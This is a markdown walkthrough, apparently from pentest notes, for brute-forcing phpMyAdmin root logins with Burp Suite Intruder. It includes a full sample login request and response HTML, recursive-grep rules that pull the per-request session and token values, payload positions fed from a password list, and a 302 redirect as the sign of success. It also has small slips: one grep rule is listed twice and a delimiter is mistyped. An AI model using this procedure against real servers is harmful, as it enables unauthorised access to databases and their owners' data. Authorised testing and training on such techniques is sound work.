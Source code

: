 ## Sample post login request
1. Cookie with the value: phpMyAdmin
2. set_session post data: same value as the phpMyAdmin cookie
3. a password that we want to try
4. a token value in the post data
```
POST /phpmyadmin/index.php?route=/ HTTP/1.1
Host: nix
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 133
Origin: null
Connection: close
Cookie: phpMyAdmin=tcrg5ptlfkit2mik13vbsi2aah; pma_lang=en
Upgrade-Insecure-Requests: 1

set_session=tcrg5ptlfkit2mik13vbsi2aah&pma_username=root&pma_password=hello&server=1&route=%2F&token=504a3960426a23433839432548265756
```
## let's look at the response to the login request:
1. notice the value in the hidden set_session input value
```
<form method="post" id="login_form" action="index.php?route=/" name="login_form" class="disableAjax hide login js-show form-horizontal">
  <fieldset>
    <legend class="col-form-label">
      <input type="hidden" name="set_session" value="0epta11d41e5bqdjcon0pt37j4">
            Log in      <a href="./doc/html/index.html" target="documentation"><img src="themes/dot.gif" title="Documentation" alt="Documentation" class="icon ic_b_help"></a>
    </legend>
```
2. notice the hidden token value
```
<div class='hide js-show'>
        <form method="get" action="index.php?route=/" class="disableAjax">
    <input type="hidden" name="db" value=""><input type="hidden" name="table" value=""><input type="hidden" name="token" value="2b3256584933672d4e29672d7e69584d">
```
## if we send the request to intruder, and got the options tab, we can extract useful information from responses and feed them to the attack results table.
1. we grab from `_session" value="` to `">` for the cookie value
2. we grab from `token" value="` to `:>` for the token value

![phpma-brute-1](/Assets/PHPMyAdmin-Bruteforce/phpma-brute-1.jpg)

## we then configure the payload locations
![phpma-brute-2](/Assets/PHPMyAdmin-Bruteforce/phpma-brute-2.jpg)

## and set them for their respective values
1. recursive grep: from `_session" value="` to `">` for the cookie value
2. recursive grep: from `_session" value="` to `">` for the cookie value
3. simple list: <PASSWORD_LIST>
4. recursive grep: from `token" value="` to `:>` for the token value

![phpma-brute-3](/Assets/PHPMyAdmin-Bruteforce/phpma-brute-3.jpg)

## after that, we set the resource pool for 1 max concurrent request to be compatible with our recursive grep payloads
![phpma-brute-4](/Assets/PHPMyAdmin-Bruteforce/phpma-brute-4.jpg)

## we then launc the attack and get a 302 redirect when the password is correct
![phpma-brute-5](/Assets/PHPMyAdmin-Bruteforce/phpma-brute-5.jpg)